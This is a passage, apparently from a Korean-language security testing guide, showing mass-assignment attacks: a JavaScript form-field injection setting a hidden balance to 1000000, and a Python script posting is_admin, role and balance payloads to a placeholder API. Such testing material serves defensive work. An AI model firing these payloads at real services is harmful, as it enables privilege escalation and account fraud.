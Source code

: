 ```html
    
    // 잔액 조작 테스트
    const balanceField = document.createElement('input');
    balanceField.type = 'hidden';
    balanceField.name = 'balance';
    balanceField.value = '1000000';
    this.appendChild(balanceField);
});
</script>
```

### 시나리오 2: API 기반 테스트

```python
import requests
import json

def test_mass_assignment_api():
    url = "https://target.com/api/user/update"
    
    # 정상 업데이트 데이터
    legitimate_data = {
        "username": "testuser",
        "email": "test@example.com",
        "bio": "Updated bio"
    }
    
    # 공격 페이로드 추가
    attack_payloads = [
        {"is_admin": True},
        {"role": "administrator"},
        {"balance": 1000000},
        {"verified": True},
        {"permissions": ["read", "write", "admin"]},
        {"created_at": "2020-01-01"},
        {"user_type": "premium"}
    ]
    
    for payload in attack_payloads:
        test_data = {**legitimate_data, **payload}
        
        response = requests.post(url, 
                               json=test_data,
                               headers={"Authorization": "Bearer TOKEN"})
        
        print(f"Testing {list(payload.keys())[0]}: {response.status_code}")
        
        if response.status_code == 200:
            print(f"Potential vulnerability with field: {list(payload.keys())[0]}")
```
